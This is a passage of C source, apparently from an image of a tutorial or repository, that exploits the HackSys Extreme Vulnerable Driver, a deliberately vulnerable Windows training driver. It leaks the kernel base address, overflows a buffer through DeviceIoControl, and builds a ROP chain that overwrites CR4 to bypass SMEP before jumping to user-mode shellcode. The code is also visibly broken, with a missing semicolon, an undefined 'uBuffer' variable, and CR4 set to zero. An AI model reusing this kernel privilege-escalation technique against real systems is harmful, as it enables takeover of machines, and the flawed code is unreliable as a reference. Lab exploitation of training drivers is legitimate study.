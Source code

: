 ```c
    if (!EnumDeviceDrivers(NULL, 0, &dwBytesNeeded)) {
        printf("[-] Failed to calculate bytes needed for device driver entries");
        return -1;
    }

    if (!(lpImageBase = (LPVOID*)HeapAlloc(GetProcessHeap(), 0, dwBytesNeeded))) {
        printf("[-] Failed to allocate heap for lpImageBase\n");
        if (lpImageBase) {
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        }
        return -1;
    }

    if (!EnumDeviceDrivers(lpImageBase, dwBytesNeeded, &dwBytesNeeded)) {
        printf("[-] EnumDeviceDrivers: %d", GetLastError());
        if (lpImageBase) {
            HeapFree(GetProcessHeap(), 0, lpImageBase);
        }
        return -1;
    }

    pKernelBaseAddress = ((ULONG_PTR*)lpImageBase)[0];
    HeapFree(GetProcessHeap(), 0, lpImageBase);

    printf("[*] Kernel Base Address: %llx\n", pKernelBaseAddress);

    return pKernelBaseAddress;
}

int main()
{
    HANDLE hDriver = CreateFile(L"\\\\.\\HacksysExtremeVulnerableDriver",
        GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, 0, NULL);
    if (hDriver == INVALID_HANDLE_VALUE)
    {
        printf("[!] Error while creating a handle to the driver: %d\n", GetLastError());
        return 1;
    }
    ULONG_PTR ntBase = GetKernelBaseAddress(); // gets the kernel base address

    QWORD POP_RCX = ntBase + 0x207c53;      // change the offset to what you got from ropper
    QWORD MOV_CR4_RCX = ntBase + 0x4bc9a7;  // change the offset to what you got from ropper

    LPVOID buf = VirtualAlloc(NULL, 3000, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    LPVOID shellcode = VirtualAlloc(NULL, 500, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    int bufSize = 2072 + 4 * 8;
    memset(buf, 0x41, bufSize);
    memset(shellcode,0x90,500)

    QWORD* rop = (QWORD*)((QWORD)uBuffer + 2072);
    int i = 0;

    *(rop + i++) = POP_RCX;
    *(rop + i++) = 0; // set cr4 to 0 for now 
    *(rop + i++) = MOV_CR4_RCX;
    *(rop + i++) = (QWORD)shellcode;

    DeviceIoControl(hDriver, 0x222003, buf, 2500, NULL, 0, NULL, NULL);

    return 0;
}
```
